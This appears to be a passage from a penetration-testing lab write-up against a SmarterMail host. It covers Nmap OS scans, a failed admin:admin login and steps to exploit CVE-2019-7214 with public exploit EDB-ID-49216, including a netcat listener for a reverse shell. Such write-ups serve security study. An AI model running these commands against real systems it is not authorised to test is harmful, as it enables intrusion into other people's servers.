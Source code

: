## OS
### Nmap OS Discovery Scan
```bash
sudo nmap $TARGET -O -oN scans/$NAME-nmap-os

# output
Running (JUST GUESSING): Microsoft Windows XP|7 (89%)
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
```

### Nmap OS Discovery Scan via SMB
```bash
sudo nmap $TARGET -p445 --script smb-os-discovery -oN scans/$NAME-nmap-os-smb

# output
NSTR
```

# Exploit 
## Password Guessing
### Default Credentials
This did not work (the target requires a domain name for the username/email address).
```bash
# SmarterMail
# admin:admin

# output
That domain was not found. Double check your email address.
```

## CVE-2019-7214
Online research of TCP port 17001 lead to information about CVE-2019-7214 (RCE vulnerability) and EDB-ID-49216 (exploit POC). 

Vulnerability description: SmarterTools SmarterMail 16.x before build 6985 allows deserialization of untrusted data. An unauthenticated attacker could run commands on the server when port 17001 was remotely accessible. This port is not accessible remotely by default after applying the Build 6985 patch.

### EDB-ID-49216
This did not work until I used TCP port 17001 as both my target and remote port.
```bash
searchsploit SmarterMail
mkdir edb-id-49216
cd edb-id-49216
searchsploit -x 49216
vim 49216.py # edit variables: 
pyenv global 3.9.5 
sudo nc -nvlp 17001
python 49216.py
```
